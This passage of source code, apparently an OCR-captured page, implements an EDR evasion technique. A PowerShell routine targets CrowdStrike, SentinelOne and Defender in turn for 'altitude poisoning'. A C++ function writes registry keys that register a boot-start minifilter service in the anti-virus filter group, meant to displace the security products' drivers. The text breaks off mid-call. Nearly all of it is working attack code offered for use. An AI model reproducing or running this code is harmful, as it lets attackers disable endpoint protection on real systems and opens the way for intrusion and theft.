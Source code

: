 ```powershell
# Advanced: Multi-altitude poisoning to disable multiple EDRs
function Invoke-MultiEDRBypass {
    $targetEDRs = @("CrowdStrike", "SentinelOne", "Defender")

    foreach ($edr in $targetEDRs) {
        Write-Host "`n[*] Targeting $edr..."
        Invoke-EDRAltitudeBypass -EDRProduct $edr
    }

    Write-Host "`n[!] All targets poisoned. Reboot to activate bypass."
}
```

### C++ Implementation (Registry Manipulation)

```cpp
#include <Windows.h>
#include <stdio.h>

BOOL PoisonMiniFilterAltitude(
    LPCWSTR wszPoisonFilterName,
    LPCWSTR wszTargetAltitude
) {
    HKEY hServiceKey = NULL;
    HKEY hInstanceKey = NULL;
    LONG lResult;
    BOOL bSuccess = FALSE;

    WCHAR wszServicePath[MAX_PATH];
    WCHAR wszInstancePath[MAX_PATH];

    // Build registry paths
    swprintf_s(wszServicePath, MAX_PATH,
        L"SYSTEM\\CurrentControlSet\\Services\\%s", wszPoisonFilterName);
    swprintf_s(wszInstancePath, MAX_PATH,
        L"SYSTEM\\CurrentControlSet\\Services\\%s\\Instances\\%s Instance",
        wszPoisonFilterName, wszPoisonFilterName);

    // Create service key
    lResult = RegCreateKeyExW(
        HKEY_LOCAL_MACHINE,
        wszServicePath,
        0, NULL,
        REG_OPTION_NON_VOLATILE,
        KEY_WRITE,
        NULL,
        &hServiceKey,
        NULL
    );

    if (lResult != ERROR_SUCCESS) goto cleanup;

    // Set service parameters
    DWORD dwType = 2; // SERVICE_FILE_SYSTEM_DRIVER
    DWORD dwStart = 0; // SERVICE_BOOT_START
    DWORD dwErrorControl = 1; // SERVICE_ERROR_NORMAL
    LPCWSTR wszGroup = L"FSFilter Anti-Virus";

    RegSetValueExW(hServiceKey, L"Type", 0, REG_DWORD, (BYTE*)&dwType, sizeof(DWORD));
    RegSetValueExW(hServiceKey, L"Start", 0, REG_DWORD, (BYTE*)&dwStart, sizeof(DWORD));
    RegSetValueExW(hServiceKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwErrorControl, sizeof(DWORD));
    RegSetValueExW(hServiceKey, L"Group", 0, REG_SZ, (BYTE*)wszGroup,
```